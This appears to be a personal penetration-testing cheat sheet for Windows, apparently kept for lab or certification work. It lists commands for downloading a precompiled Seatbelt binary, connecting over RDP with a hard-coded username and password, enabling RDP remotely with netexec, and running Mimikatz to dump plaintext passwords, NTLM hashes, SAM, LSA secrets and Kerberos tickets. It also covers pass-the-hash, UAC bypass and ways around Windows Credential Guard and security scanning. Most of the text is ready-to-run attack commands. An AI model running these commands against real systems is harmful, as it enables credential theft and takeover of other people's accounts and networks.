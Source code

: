 Fix for broken terminal colors (run and then open new powershell):
``` PowerShell
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

---
### Seatbelt
Get pre-compiled binary from `https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Seatbelt.exe`. Run with option `-group=all`

---
### RDP
```PowerShell
xfreerdp /u:leon /p:"HomeTaping199\!" /d:corp.com /v:192.168.211.74 /dynamic-resolution /cert:ignore +clipboard +drive:SHARED,.
```
```bash
# Enable RDP remotely
netexec smb $IP -u username -p pass -M rdp -o ACTION=enable
```
See [[Windows V2#Pass-The-Hash]] for RDP pass-the-hash

---
# Windows PrivEsc
### Mimikatz
```powershell
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"
```
```PowerShell
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::lsa /inject" "exit"
```
```PowerShell
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::msv" "lsadump::sam" "exit"

sekurlsa::logonpasswords # SeDebugPrivilege required
lsadump::sam # Only SeBackupPrivilege is required
lsadump::ntds # Domain users
lsadump::secrets
lsadump::cache
lsadump::lsa /inject # LSA process; only SeDebugPrivilege is required
```
- If Mimikatz is being blocked by Windows security, can try [[Windows V2#Evil-WinRM]] evil-winRM's `Bypass-4MSI`
- See [[Windows V2#Basic Commands]] for how to bypass UAC

```PowerShell
privilege::debug # elevate privileges (SeDebugPrivilege)
token::elevate # bypass UAC by elevating token (SeImpersonatePrivilege)
log mimi.log # Start logging session
misc::cmd # Launches a new cmd.exe under the current security context

# Dumping Credentials
sekurlsa::logonpasswords # Extracts plaintext password and password hashes from all available sources (lsadump::sam will generate cleaner output)
lsadump::sam # extract user password hashes from SAM
lsadump::lsa /patch # Cached secrets and credentials. Dumps LSA secrets (service passwords). Patches LSA to bypass some protections. Will not defeat Windows Credential guard.
sekurlsa::msv # Retrieves NTLM hashes for active users (pass-the-hash)
lsadump::secrets # Dump LSA secrets
misc::memssp # Defeat Windows Credential Guard (must wait for domain user to login)
sekurlsa::tickets /export # Dump *.kirbi TGS tickets

# Pass-the-hash
sekurlsa::pth /user:Administrator /domain:DOMAIN /ntlm:HASH /run:powershell.exe
```

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami